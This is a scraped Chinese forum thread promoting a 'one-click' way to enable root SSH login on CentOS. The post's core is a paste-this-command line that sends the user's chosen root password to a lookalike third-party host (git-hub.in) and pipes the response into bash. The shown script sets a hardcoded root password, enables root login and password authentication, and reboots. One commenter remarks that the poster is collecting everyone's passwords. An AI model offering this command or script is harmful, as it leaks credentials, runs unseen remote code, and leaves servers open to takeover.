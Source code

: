 # Centos一键开启ROOT登录SSH


<div class="quote"><blockquote>bash &lt;(curl https://git-hub.in/ssh.php?pwd=密码)</blockquote></div><br />
<br />
<strong>目前仅支持Centos6/7 非此系统用户请手动重启SSHD服务</strong><br />
<br />
PHP文件源代码（不放心的可以自建）：<img id="aimg_Jt365" onclick="zoom(this, this.src, 0, 0, 0)" class="zoom" src="https://img.qcair.cc/img/4562" onmouseover="img_onmouseoverfunc(this)" onload="thumbImg(this)" border="0" alt="" />

#!/bin/bash<br />
echo root:746461jiok |sudo chpasswd root<br />
sudo sed -i 's/^#\?PermitRootLogin.*/PermitRootLogin yes/g' /etc/ssh/sshd_config;<br />
sudo sed -i 's/^#\?PasswordAuthentication.*/PasswordAuthentication yes/g' /etc/ssh/sshd_config;<br />
sudo reboot<br />
<br />
<br />
<br />
我都是用这个&nbsp;&nbsp;aws.gcp.甲骨文

然后所有密码都被你收集起来了 真棒<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />

这个php有点没看懂。。。现在php还可以直接生成sh了？太强了吧

well done<br />
<br />
<br />
<br />
/**<br />
 * 错的不是我， 错的是世界。 -- [School day]-----------By 开保时捷的男人

我寻思这不是 vim 改一下文件就好了吗， 1分钟不到的事

Gcp. 應該能用上

AWS，AZ，都能一行代码搞定嘛？<br />
<br />
<img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" /><img src="static/image/smiley/default/lol.gif" smilieid="12" border="0" alt="" />
